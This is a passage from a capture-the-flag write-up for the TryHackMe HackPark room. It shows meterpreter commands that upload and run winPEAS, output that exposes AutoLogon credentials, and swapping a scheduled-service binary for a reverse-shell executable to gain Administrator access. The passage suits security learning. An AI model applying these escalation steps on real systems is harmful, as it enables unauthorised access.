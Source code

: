 Uploading and running `winPEAS`:
```
meterpreter> upload winPEASx86.exe
meterpreter> load powershell
meterpreter> powershell_shell

PS> .\winPEASx86.exe > winpeas.txt
PS> exit
PS> meterpreter > download winpeas.txt
```

Read/search the results:
```bash
more winpeas.txt
cat winpeas.txt | grep -i "<search>"
```
`more` is nice for this as it will use the shell syntax highlighting/colours, making it easier to read. The file is often extremely long and hard to read using `cat` or similar.  

This highlights a possibly vulnerable service:
```
=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================
```

It also finds some AutoLogon credentials:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

##### Privilege escalation

The hackpark room wants us to exploit the service, so I will ignore the AutoLogon credentials.

Looking through the logs in `C:\Program Files (x86)\SystemScheduler` we can see its calling `Message.exe` as administrator. We can use our `msfvenom_reverse_shell.exe` we created earlier to gain a more stable reverse shell to replace `Message.exe`, and on the next scheduler cycle it will be run as an `Administrator`. 

Restart the listener we had earlier & wait for the next cycle (seems to be once every 1-2 minutes). This will give us a reverse shell as the `Administrator` account. From here we can gather the flags on both desktops and we've already ran `winPEAS` and gathered the other required information.

#### SteelMountain [TryHackMe]

Attacking a Windows based machine.
